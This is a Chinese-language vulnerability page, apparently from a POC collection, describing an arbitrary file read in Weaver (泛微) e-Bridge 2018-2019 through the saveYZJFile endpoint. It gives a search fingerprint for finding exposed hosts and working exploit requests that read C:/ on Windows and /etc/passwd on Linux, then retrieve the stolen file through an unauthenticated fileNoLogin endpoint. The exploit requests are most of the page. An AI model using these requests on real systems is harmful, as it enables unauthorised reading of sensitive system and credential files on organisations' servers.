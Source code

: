 # 泛微OA E-Bridge saveYZJFile 任意文件读取漏洞

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

<a-checkbox checked>泛微云桥 e-Bridge 2018-2019 多个版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="泛微云桥e-Bridge"</a-checkbox></br>

## 漏洞复现

```
# Windows验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
```

![img](../../../.vuepress/public/img/fanwei-1.png)



成功返回 **id值**,说明含有此漏洞

<a-alert type="success" message="调用查看文件接口访问 /file/fileNoLogin/id值" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/fanwei-2.png)



### 

```
# Linux验证POC

/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
```

![img](../../../.vuepress/public/img/fanwei-3.png)



成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![img](../../../.vuepress/public/img/fanwei-4.png)